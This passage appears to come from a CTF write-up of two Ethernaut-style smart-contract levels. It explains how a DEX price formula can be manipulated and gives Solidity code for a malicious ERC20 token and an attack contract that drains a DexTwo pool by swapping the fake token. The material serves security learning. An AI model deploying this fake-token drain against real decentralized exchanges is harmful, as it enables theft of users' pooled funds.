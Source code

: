 ## 22. Dex ✅ [Hard]

This is interesting:
Token price calculation formula in contract: uint256 swapAmount = (amount * toTokenBalance) / fromTokenBalance;
This formula is simple proportion calculation used to dynamically determine token exchange ratio. Theoretically works but completely relies on current pool balance to calculate price.
When balance changes dramatically (like when malicious user manipulates price), formula output fluctuates greatly, causing price distortion. (Easy to have situation where 1 Token1 can exchange for 10 Token2) Then trading back and forth earns more and more.

Lack of protection mechanisms:
No slippage limit: Slippage is natural phenomenon of token price fluctuation but should have limit to avoid extreme price changes from single transaction.
Lack of minimum price check: Contract allows attacker to gradually reduce balance leading to extremely low or zero price for one token, thus depleting liquidity pool.

This vulnerability exposes that decentralized exchanges need more complex mechanisms to protect pool stability. Solutions are:
- Use Constant Product Formula to ensure price stability.
- Add slippage protection and minimum liquidity limits.
- Avoid directly relying on external user behavior to determine contract logic.
- Consider fee model to reduce malicious behavior profits.

## 23. Dex Two ✅ [Hard]

Compared to dex1 this just lacks require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens"); restriction
Then can inject an attack Token as long as implements ERC20, then can add attack transfer
```solidity
contract MaliciousToken is ERC20 {
    constructor() ERC20("Malicious", "MTK") {}

    function balanceOf(address account) public view override returns (uint256) {
        return 1e18; // Always return high balance
    }

    function transferFrom(address from, address to, uint256 amount) public override returns (bool) {
        return true; // Force transfer success
    }
}

// Attack contract
contract AttackDexTwo {
    DexTwo public dex;
    MaliciousToken public token;

    constructor(address _dex) {
        dex = DexTwo(_dex);
        token = new MaliciousToken();
    }

    function exploit() public {
        // Add malicious token liquidity to DexTwo
        dex.add_liquidity(address(token), 1); // Add 1 malicious token

        // Use malicious token's high balance to manipulate price
        dex.swap(address(token), dex.token1(), 1);
        dex.swap(address(token), dex.token2(), 1);

        // At this point, DexTwo's token1 and token2 have been depleted
    }
}
```